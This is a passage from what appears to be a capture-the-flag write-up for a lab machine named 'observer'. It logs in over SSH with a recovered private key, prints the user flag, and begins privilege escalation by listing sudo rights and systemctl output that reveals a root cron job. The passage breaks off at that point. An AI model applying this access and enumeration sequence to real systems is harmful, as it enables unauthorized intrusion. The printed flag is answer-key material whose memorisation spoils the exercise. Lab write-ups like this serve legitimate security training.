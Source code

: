 We save this key to a file and set the appropriate permissions so it can be used for user authentication. 

```bash
nano jan_id_rsa
chmod 600 jan _id_rsa
```

Now we can `SSH` in as `jan`:

```bash
ssh -i jan_id_rsa jan@10.0.4.28
```

Inside `/home/jan/` we find the `user flag`.

```
HMVdDepYxsi8VSucdruB3P7
```

# PRIVILEGE ESCALATION

To escalate privileges, we first check `sudo` and `SUID` permissions.

```bash
sudo -l
```

Info:
```
Matching Defaults entries for jan on observer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User jan may run the following commands on observer:
    (ALL) NOPASSWD: /usr/bin/systemctl -l status
```

We run `/usr/bin/systemctl -l status` and find the following output:

Info:
```
● observer
    State: running
    Units: 235 loaded (incl. loaded aliases)
     Jobs: 0 queued
   Failed: 0 units
    Since: Sun 2025-10-19 17:10:39 CEST; 1h 31min ago
  systemd: 252.12-1~deb12u1
   CGroup: /
           ├─init.scope
           │ └─1 /sbin/init
           ├─system.slice
           │ ├─cron.service
           │ │ ├─435 /usr/sbin/cron -f
           │ │ ├─440 /usr/sbin/CRON -f
           │ │ ├─444 /bin/sh -c /opt/observer
           │ │ └─445 /opt/observer
......................<REST_OF_OUTPUT>.........................................
```
